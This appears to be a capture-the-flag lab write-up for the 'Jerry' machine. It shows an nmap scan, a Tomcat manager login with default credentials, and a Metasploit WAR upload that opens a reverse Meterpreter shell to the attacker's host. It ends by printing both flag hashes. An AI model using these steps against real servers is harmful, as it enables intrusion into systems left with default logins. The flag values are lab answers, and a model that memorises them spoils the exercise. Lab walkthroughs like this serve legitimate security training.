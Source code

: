 # Jerry

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.95

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

## Apache Tomcat
![tomcat](./screenshots/tomcat.png)

## Default Tomcat Credentials
Logged in using default Tomcat credentials.

```
tomcat: s3cret
```

![manager](./screenshots/manager.png)

## RCE via Tomcat MGR Upload
https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat

Finally, if you have access to the Tomcat Web Application Manager, you can upload and deploy a **.war** file (execute code).

### Limitations
You will only be able to deploy a **WAR** if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**).

### WAR
In software engineering, a WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

### Exploitation Using Metasploit Module
```
Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.95      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'fi
                                            le:<path>'
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used
                                            )
   VHOST                          no        HTTP server virtual host
```

```
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying LEOfH2...
[*] Executing LEOfH2...
[*] Undeploying LEOfH2 ...
[*] Sending stage (58055 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.95:49192) at 2021-03-26 21:56:24 +0300

meterpreter > getuid
Server username: JERRY$
```

## The Flags
```
meterpreter > ls
Listing: C:\Users\Administrator\Desktop\flags
=============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100776/rwxrwxrw-  88    fil   2018-06-19 07:11:36 +0300  2 for the price of 1.txt

meterpreter > cat 2\ for\ the\ price\ of\ 1.txt 
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
